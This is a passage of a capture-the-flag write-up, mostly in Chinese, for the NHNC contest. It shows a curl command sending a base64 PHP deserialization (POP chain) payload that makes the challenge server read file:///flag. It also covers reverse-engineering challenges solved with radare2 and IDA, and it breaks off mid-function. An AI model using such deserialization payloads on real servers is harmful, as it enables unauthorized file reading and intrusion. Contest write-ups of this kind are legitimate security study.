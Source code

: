 ```php=
```
傳送payload:
```bash
└─$ curl -X POST -d "pop=Tzo0OiJURVNUIjoyOntzOjQ6Im5vdGUiO3M6NDoidGVzdCI7czozOiJ1cmwiO086NDoiTUVPVyI6MTp7czoyOiJpZCI7Tzo1OiJXSEFMRSI6Mjp7czo0OiJuYW1lIjtzOjM6ImFiYyI7czoxMDoicmVwb3J0X3VyaSI7czoxMjoiZmlsZTovLy9mbGFnIjt9fX0=" http://chal.nhnc.ic3dt3a.org:60008/index.php
NHNC{FAKE_FLAG}NHNC{is_pop_chain_a_kind_of_injection_?_anyway_is_the_best_language_for_hackers}
```
>NHNC{is_pop_chain_a_kind_of_injection_?_anyway_is_the_best_language_for_hackers}

# Reverse
## easyyyyyyyyyy (50 pts)
```
author: kohiro

No more hint because it is so eazyyyyyyyyy
```
[file link](https://nhnc.ic3dt3a.org/files/05c9a039e51004dc963aac8468d448d6/NHNCbabyreverse?token=eyJ1c2VyX2lkIjo2MywidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6Mjh9.ZzqsOg.BUtpJUjsa6UuOIG4bAbI6mOrGLw)

用radare2分析，afl看到:
```bash
0x00401550    1     27 dbg.flag()
```
VV進去:
![image](https://hackmd.io/_uploads/HyJq6mdGJe.png)
> NHNC{this_is_a_easy_one}

## Guess the num (200 pts)
```
出題者：raymond

只有幸運的人才會拿到 flag。不幸運的人啊～今天不是你拿分數的好日子！
```
[file link](https://nhnc.ic3dt3a.org/files/c8ca6ecc673f41a29cf097dd79c14256/guess_the_num?token=eyJ1c2VyX2lkIjo2MywidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MTd9.Zzqt1w.dXtqu9YRYdFW-NEfPFpj7o7lfeU)

這邊用IDA打開
main函式裡:
```c=
  srand(0x1234u);
  printf("Lottery! Enter your number: ");
  __isoc99_scanf("%u", &v5);
  v3 = v5 % 0xFF;
  if ( v3 == rand() % 255 )
  {
    printf("You're blessed today! Here's your flag: %s\n", flag);
    puts("Caution ahead! You will be *DISQUALIFIED* if you share the flag; not everyone has the luck you do!");
  }
  else
  {
    puts("You shall not pass! Only those who have luck can get the flag!");
  }
```
`flag`是在全域變數，直接點開看是`NHNC{as_clear_as_plaintext}`
但提交是顯示錯誤，回去看看有那些函式
發現了`sub_1217()`，裡面有存取到`flag`讓我很在意:
```c=
_BYTE *sub_1217()
{
  __int64 v0; // rax
  _BYTE *result; // rax
```